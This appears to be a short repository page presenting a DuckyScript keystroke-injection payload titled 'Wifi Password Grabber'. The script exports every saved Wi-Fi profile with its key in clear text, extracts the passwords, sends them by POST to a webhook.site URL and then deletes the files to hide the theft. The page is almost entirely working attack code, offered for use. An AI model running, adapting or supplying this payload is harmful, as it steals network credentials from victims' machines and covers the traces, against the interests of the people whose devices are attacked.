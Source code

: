 ## Wifi Password Grabber POST using Webhook

```
DELAY 1000
GUI r

DELAY 500
STRING cmd /k mode con: cols=15 lines=1
ENTER

DELAY 500
STRING cd %temp%
ENTER

DELAY 500
STRING netsh wlan export profile key=clear
ENTER

DELAY 500
STRING powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS
ENTER

DELAY 500
STRING powershell Invoke-WebRequest -Uri https://webhook.site/4ebf0d21-6241-4cd6-83b1-9c3bf5b350f0 -Method POST -InFile Wi-Fi-PASS
ENTER

DELAY 500
STRING del Wi* /s /f /q
ENTER

DELAY 500
STRING exit
ENTER
```
![Image](3.PNG)
![Image](4.PNG)

